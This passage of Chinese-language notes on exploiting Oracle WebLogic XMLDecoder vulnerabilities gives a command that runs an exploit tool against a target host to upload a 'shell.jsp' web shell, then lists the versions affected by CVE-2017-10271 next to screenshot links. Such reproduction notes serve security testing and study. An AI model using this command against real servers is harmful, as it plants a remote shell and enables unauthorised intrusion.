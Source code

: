 利用集成化工具进行漏洞利用。

本机执行：java -jar WebLogic-XMLDecoder.jar -s http://目标主机域名或IP:端口 path.txt文件中路径 shell.jsp

![Dingtalk_20220325144036](.\image\Dingtalk_20220325144036.jpg)

![Dingtalk_20220325144332](.\image\Dingtalk_20220325144332.jpg)

### CVE-2017-10271

影响版本：

Oracle WebLogic Server 12.1.3.0
Oracle WebLogic Server 12.2.1.1
Oracle WebLogic Server 10.3.6.0



漏洞复现：

![Dingtalk_20220323153924](.\image\Dingtalk_20220323153924.jpg)
